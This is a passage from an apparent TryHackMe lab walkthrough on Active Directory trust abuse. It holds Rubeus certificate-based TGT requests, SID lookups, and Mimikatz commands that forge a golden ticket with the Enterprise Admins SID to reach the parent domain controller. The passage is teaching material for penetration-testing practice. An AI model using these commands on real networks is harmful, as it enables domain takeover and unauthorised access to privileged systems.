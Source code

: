 ```C:\THMTools> .\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:12.31.1.101```

To recover these SIDs, we can use the AD-RSAT Powershell cmdlets. We can recover the SID of the child domain controller using the following command:

Command Prompt

```shell-session
PS C:\> Get-ADComputer -Identity "THMDC"
```

We can recover the SID of the Enterprise Admins group using the following command to query the parent domain controller:  

Command Prompt

```shell-session
PS C:\> Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc
```

Exploiting Domain Trusts

We finally have all of the information required to create our forged TGT. We will use Mimikatz to generate this golden ticket. The command will look something like this:
mimikatz # privilege::debug
mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt


First, we will verify that this ticket works for access to THMDC since it is a valid ticket for the Administrator user of the child domain:

Command Prompt

```shell-session
C:\>dir \\thmdc.za.tryhackme.loc\c$
```
This at least confirms that the Golden Ticket was forged for access to the child DC. However, since we specified extra SIDs, we should also now have access to the parent DC:

Command Prompt

```shell-session
C:\>dir \\thmrootdc.tryhackme.loc\c$\
```

































